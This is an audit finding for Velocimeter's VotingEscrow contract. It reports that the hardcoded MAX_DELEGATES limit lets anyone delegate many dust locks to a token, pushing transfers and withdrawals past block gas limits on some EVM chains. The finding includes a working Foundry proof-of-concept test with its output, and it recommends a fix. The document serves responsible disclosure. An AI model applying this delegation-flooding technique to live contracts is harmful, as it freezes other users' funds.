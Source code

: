 Sweet Pecan Wasp

High

# VotingEscrow MAX_DELEGATES value can lead to DOS on certain EVM-compatible chains

## Summary

`VotingEscrow` `MAX_DELEGATES` is a hardcoded variable that ensures an address does not have an array of delegates that would lead to a DOS when calling `transfer/burn/mint` when moving delegates.. However the current value of `1024` can still lead to a DOS on certain chains.

## Vulnerability Detail

Within the contest [README](https://audits.sherlock.xyz/contests/442), the protocol states that the code is expected to function on any EVM-compatible chain, without any plans to include Ethereum mainnet:

>On what chains are the smart contracts going to be deployed?
>
>First on IOTA EVM, but code was build with any EVM-compatible network in mind. There is no plan to deploy in on Ethereum mainnet

The sponsor has also stated that it should be assumed the code will be deployed to all EVM compatible chains:
> dawid.d | Velocimeter — 18/07/2024 02:18
> you should assume that it can be deployed to any chain that is fully evm compatible

When testing the gas usage of withdrawing a tokenId that currently has the maximum number of delegates, the gas usage is:
`console::log("gas used:", 23637422 [2.363e7]) [staticcall]`

Popular EVM compatible chains block gas limit (under 24m):
[Scroll EVM](https://scrollscan.com/block/7277054): 10,000,000
[Gnosis Chain](https://gnosisscan.io/block/34879385): 17,000,000

## POC
Add the following test function to `VotingEscrow.t.sol`:
```solidity
    function testDelegateLimitAttack() public {
        vm.prank(address(owner));
        flowDaiPair.approve(address(escrow), type(uint256).max);
        uint tokenId = escrow.create_lock(TOKEN_1, 7 days);
        for(uint256 i = 0; i < escrow.MAX_DELEGATES() - 1; i++) {
            vm.roll(block.number + 1);
            vm.warp(block.timestamp + 2);
            address fakeAccount = address(uint160(420 + i));
            flowDaiPair.transfer(fakeAccount, 1);
            vm.startPrank(fakeAccount);
            flowDaiPair.approve(address(escrow), type(uint256).max);
            escrow.create_lock(1, FIFTY_TWO_WEEKS);
            escrow.delegate(address(this));
            vm.stopPrank();
        }
        vm.roll(block.number + 1);
        vm.warp(block.timestamp + 7 days);
        uint initialGas = gasleft();
        escrow.withdraw(tokenId);
        uint gasUsed = initialGas - gasleft();
        console.log("gas used:", gasUsed);
    }
```
To run:
`forge test --match-test testDelegateLimitAttack  -vv`
Output: 
```javascript
[PASS] testDelegateLimitAttack() (gas: 12470671686)
Logs:
  gas used: 23637422
```

## Impact

As seen, this upper gas limit exceeds the outlined EVM-compatible chains, meaning the current hardcoded value of `MAX_DELEGATES` can lead to a DOS by delegating minimum value locks to an address, causing that tokenId to revert when calling any function that calls `_moveTokenDelegates` as the gas utilised will exceed the chains gas limit for a singular block. Affected functions: [transferFrom()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L353-L359), [withdraw()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L955-L979), [merge()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1195-L1210), [_mint()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L483-L492).

This will lead to a user's NFT being locked from utilising the outlined functions, causing their funds to be locked, leading to a loss of funds with no special outside factors needed to allow this type of attack (apart from deploying on one of the outlined chains, which as stated in the ReadMe is applicable).

## Code Snippet

[VotingEscrow::transferFrom()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L353-L359)
[VotingEscrow::withdraw()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L955-L979)
[VotingEscrow::merge()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L1195-L1210)
[VotingEscrow::_mint()](https://github.com/sherlock-audit/2024-06-velocimeter/blob/main/v4-contracts/contracts/VotingEscrow.sol#L483-L492)

## Tool used

Manual Review

## Recommendation

Reducing the `MAX_DELEGATES` value to 256 would reduce the cost of the outlined function to ~6,000,000 which would solve the outlined issue.